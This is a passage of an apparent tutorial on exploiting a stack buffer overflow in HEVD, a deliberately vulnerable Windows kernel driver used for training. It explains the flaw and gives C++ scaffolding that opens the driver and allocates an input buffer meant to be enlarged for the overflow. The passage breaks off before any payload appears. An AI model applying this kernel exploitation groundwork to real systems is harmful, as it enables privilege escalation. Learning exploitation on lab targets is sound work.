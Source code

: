Finally, something that looks like a user mode pwn challenge.  A statically sized stack based buffer and a `memcpy` of arbitrary length into it.

The above code is vulnerable to a simple stack based buffer overflow.  There are no protections such as stack canaries in the Windows 7 kernel, so we can trivially overwrite all the way to the return address.  

## Interface with the driver

Let's put together a program that interfaces with the driver without triggering the bug.  We can later use it to build our exploit on.

```c++
#include <windows.h>
#include <stdio.h>

#define HEVD_IOCTL_BUFFER_OVERFLOW \
    CTL_CODE( 0x22, 0x800, METHOD_NEITHER, FILE_ANY_ACCESS )

#define BUFFER_SIZE 2048

int testOverflow(HANDLE hDevice);

int main() {
    HANDLE hDevice;
    PCWSTR lpDeviceName = L"\\\\.\\HackSysExtremeVulnerableDriver";

    hDevice = CreateFileW(
        lpDeviceName,
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_WRITE,
        nullptr,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        nullptr
    );

    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[-] Failed to open handle to driver: %lu\n", GetLastError());
    } 

    printf("[+] Device opened successfully!\n");

    testOverflow(hDevice);

    printf("[+] Cleaning up and closing handle...\n");

    CloseHandle(hDevice);
    return 0;
}

int testOverflow(HANDLE hDevice) {

    PCHAR lpInBuffer { nullptr };
    ULONG inBufferSize { 0 };
    DWORD bytesReturned { 0 };
    
    // Allocate a buffer of the correct size to use the driver
    // safely.  It will later be extended for the overflow
    inBufferSize = BUFFER_SIZE;
    
    lpInBuffer = (PCHAR)HeapAlloc(GetProcessHeap(), 
                                  HEAP_ZERO_MEMORY, 
                                  inBufferSize);
```